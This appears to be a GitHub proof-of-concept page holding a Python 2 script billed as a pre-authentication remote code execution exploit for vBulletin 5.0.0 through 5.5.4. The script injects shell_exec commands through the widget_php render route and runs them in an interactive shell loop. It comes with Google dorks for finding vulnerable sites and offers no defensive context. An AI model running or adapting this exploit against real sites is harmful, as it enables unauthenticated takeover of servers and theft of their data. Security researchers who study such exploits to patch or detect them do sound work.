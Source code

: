 POC
---

    #!/usr/bin/python
    #
    # vBulletin 5.x 0day pre-auth RCE exploit
    #
    # This should work on all versions from 5.0.0 till 5.5.4
    #
    # Google Dorks:
    # - site:*.vbulletin.net
    # - "Powered by vBulletin Version 5.5.4"

    import requests
    import sys

    if len(sys.argv) != 2:
        sys.exit("Usage: %s <URL to vBulletin>" % sys.argv[0])

    proxies ={
         "http":"http://127.0.0.1:8080/"
    }
    params = {"routestring":"ajax/render/widget_php"}

    while True:
         try:
              cmd = raw_input(">>>Shell= ")
              params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"');echo md5('vBulletin'); exit;"
              r = requests.post(url = sys.argv[1], data = params, proxies=proxies)
              if r.status_code == 200 or r.status_code ==403 and 'be4ea51d962be8308a0099ae1eb3ec63' in r.text:
                   print
                   print r.text.split('be4ea51d962be8308a0099ae1eb3ec63')[0]
              else:
                   sys.exit("Exploit failed! :(")
         except KeyboardInterrupt:
              sys.exit("\nClosing shell...")
         except Exception, e:
              sys.exit(str(e))